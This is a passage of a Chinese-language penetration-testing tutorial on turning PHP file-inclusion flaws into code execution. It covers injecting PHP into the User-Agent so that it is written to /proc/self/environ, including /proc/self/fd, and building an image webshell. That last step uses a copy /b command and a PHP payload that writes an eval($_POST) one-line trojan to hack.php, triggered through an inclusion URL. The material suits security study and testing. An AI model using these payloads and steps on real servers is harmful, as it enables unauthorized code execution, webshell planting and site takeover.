 1. php以cgi方式运行，这样environ才会保持UA头。
2. environ文件存储位置已知，且environ文件可读。
    
    environ文件默认位置：`/proc/self/environ`。在Linux系统下(FreeBSD是没有这个的)。Windows系统没有。

姿势：

`proc/self/environ`中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

例如：我们现在访问一个网站，使用burpsuite抓包，将恶意代码插入到user-agent中：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-20c6ee430e38d248788ba9696c74185e1c087bee.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-20c6ee430e38d248788ba9696c74185e1c087bee.png)

然后利用文件包含漏洞去包含`proc/self/environ`，成功执行php代码。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-093f97173b8395f13363566cc985edd086c10cc9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-093f97173b8395f13363566cc985edd086c10cc9.png)

### 注意命令执行和写入木马

都是可以的，只要将上面的`<?php phpinfo();?>`替换成所对应的php代码，然后进行包含文件即可。

包含fd(文件描述符)
-----------

文件描述符：File des criptor,简称fd，当应用程序请求内核打开/新建一个文件时，内核会返回一个文件描述符用于对应这个打开/新建的文件，其fd本质上就是一个非负整数。实际上，它是一个索引值，指向内核为每一个进程所维护的该进程打开文件的记录表。当程序打开一个现有文件或者创建一个新文件时，内核向进程返回一个文件描述符。

默认位置：`/proc/self/fd/`。在Linux系统下。Windows系统没有。

和`包含environ`类似。

### 注意命令执行和写入木马

都是可以的，同`包含environ`。

包含上传文件
------

很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。

利用条件：

千变万化，不过至少得知道上传的文件在哪，叫啥名字。

姿势：

先得制作图片马，有两种方式：

第一种是在cmd命令行下，比如图片1.jpg和包含php代码`fputs(fopen('hack.php','w'),'<?php @e val($_POST[v])?>');?>`的2.php，它们得在同一目录，然后cmd在该目录下执行：`copy 1.jpg/b+2.php 3.jpg`，将图片1.jpg和包含php代码的2.php文件合并生成图片马3.jpg

假设已经上传一句话图片木马到服务器，路径为`/upload/202107.jpg`

然后访问URL：`http://x.x.x.x/index.php?page=./upload/202107.jpg`，包含这张图片，将会在`index.php`所在的目录下生成`hack.php`，然后用shell管理工具就能成功连接。

那么同理，命令执行也是可行的。不过都getshell了，其中也能命令执行。
